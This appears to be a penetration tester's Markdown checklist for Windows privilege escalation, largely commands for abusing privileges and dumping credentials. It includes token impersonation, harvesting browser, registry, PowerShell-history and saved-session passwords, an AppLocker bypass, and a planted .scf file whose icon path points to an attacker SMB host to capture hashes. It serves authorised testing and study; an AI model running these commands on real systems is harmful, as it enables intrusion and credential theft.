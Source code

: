 # 📋 Windows Privesc Checklist

Check for hidden files in powershell with `ls -fo`&#x20;

Refer [https://github.com/maksyche/pentest-everything/tree/master/enum\_and\_exploit/windows](https://github.com/maksyche/pentest-everything/tree/master/enum\_and\_exploit/windows)

## Privileges, groups,etc

* [ ] Check permissions with `whoami /priv` and enable with [FullPowers](https://github.com/itm4n/FullPowers/releases/tag/v0.1)(`nt authority/local system` or `Network service`)
  * [ ] If in administrator group but still no access check [uac.md](uac.md "mention")
  * [ ] [sebackupprivilege.md](sebackupprivilege.md "mention")
  * [ ] [serestoreprivilege.md](serestoreprivilege.md "mention")
  * [ ] _SeImpersonatePrivilege_ ---> [GodPotato](https://github.com/BeichenDream/GodPotato), [potatoes.md](potatoes.md "mention")
  * [ ] [sedebugprivilege.md](sedebugprivilege.md "mention")
  * [ ] [seenabledelegationprivilege.md](seenabledelegationprivilege.md "mention")
  * [ ] [setakeownershipprivilege.md](setakeownershipprivilege.md "mention")
  * [ ] [semanagevolumeprivilege.md](semanagevolumeprivilege.md "mention")
  * [ ] [SeLoadDriverPrivilege](https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system)
  * [ ] [SeMachineAccountPrivilege](https://github.com/0xJs/RedTeaming\_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md)
*   [ ] Check Group membership with `whoami /groups`

    * [ ] If in _Print Operators_ group --> [seloaddriverprivilege.md](seloaddriverprivilege.md "mention")
    * [ ] [dnsadmins.md](dnsadmins.md "mention") group
    * [ ] [hyper-v-administrators.md](hyper-v-administrators.md "mention") group
    * [ ] &#x20;[server-operators.md](server-operators.md "mention") group
    * [ ] If in the **'Event Log Readers Group'** then use

    ```
    wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
    ```

    to view logs(can be used without creds). Can also use:

    ```
    Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
    ```
* [ ] To check for [gpo.md](gpo.md "mention") use **Powerview**
* [ ] Check for tokens with [incognito](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe)
  * To list:`.\incognito.exe list_tokens -u`
  * To impersonate: `.\incognito.exe execute -c "domain\user" C:\Windows\system32\cmd.exe`
* [ ] To check environment variable: `set`. Check Path to execute
* [ ] View _named pipes_:

```
pipelist.exe /accepteula
```

Or in _powershell_:

```
gci \\.\pipe\
```

* [ ] To check DACLs of all named pipes

```
.\accesschk.exe /accepteula \pipe\
```

To check of a particular pipe:

```
accesschk.exe /accepteula \\.\Pipe\lsass -v
```

* [ ] If in _Ad Recycle Bin_ group try:

```
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```

* [ ] If applocker is present place executable in `C:\Windows\System32\spool\drivers\color`

## [mimikatz.md](mimikatz.md "mention")

Use mimikatz once Administrator access is gained. Multiple techniques are outlined in the Mimikatz page

## SharpDPAPI

```
.\SharpDPAPI.exe machinecredentials
```

<figure><img src="../../../.gitbook/assets/SharpDPAPI.png" alt=""><figcaption></figcaption></figure>

### Common Vulnerabilities

* [ ] [PrintNighmare](https://www.hackingarticles.in/windows-privilege-escalation-printnightmare/)

### Social Engineering

* [ ] Make a scf or [lnk](https://github.com/dievus/lnkbomb) file and put it in frequently accessed shares and start responder :)

scf file:

````
```
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
````

### Programs & Services

* [ ] To check running services: `tasklist /svc`
* [ ] Check for [weak-permissions.md](weak-permissions.md "mention")
* [ ] Check for [vulnerable-services.md](vulnerable-services.md "mention")
* [ ] Check for [dll-injection.md](dll-injection.md "mention")
* [ ] Applocker info :

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

* [ ] If Citrix try [citrix-breakout.md](citrix-breakout.md "mention")
* [ ] To get installed applications:

_Remove "select displayname" to display all properties_ 32 bit:

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

64 bit:

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Also check _Program files_ directory and _Downloads_

* [ ] To get running processes: `Get-Process`

### Network

* [ ] For arp cache: `arp -a`
* [ ] Network config: `ipconfig /all`
* [ ] Routing table:`route`
* [ ] For active ports that are listening: `netstat -ano`
  * [ ] Look for loopback addresses (_127.0.0.1_ and _::1_) that are not listening on the IP Address (_10.129.43.8_) or broadcast (_0.0.0.0_, _::/0_).The reason for this is network sockets on localhost are often insecure due to the thought that "they aren't accessible to the network."

## Files & Creds (PuTTY,Autologon,etc)

* [ ] [credential-hunting.md](credential-hunting.md "mention")
*   [ ] Powershell

    To check if Script Block Logging or Powershell Transcription is turned on:

    ```
    Get-History
    ```

    Clear-History does not delete PSReadline

    ```
    (Get-PSReadlineOption).HistorySavePath
    ```

    Go to that path and check too.

    To display now:

    ```
    type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    ```

    ```powershell
    type C:\Users\Public\Transcripts\transcript01.txt
    ```
* [ ] Check for stored credentials

```
cmdkey /list
```

If stored credentials present can run commands as other users:

```
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

* [ ] Browser Credentials:

```
.\SharpChrome.exe logins /unprotect
```

* [ ] Use _LaZagne_ for getting various credentials
* [ ] To look for saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials:

```
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
# Locally:
Invoke-SessionGopher -Thorough
```

*   [ ] Clear text passwords in registry. _Autologon_:

    ```
    query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
    ```

    _Putty_:\
    For sessions->

    ```
    reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
    ```

    For keys and values of session:

    ```
    reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
    ```

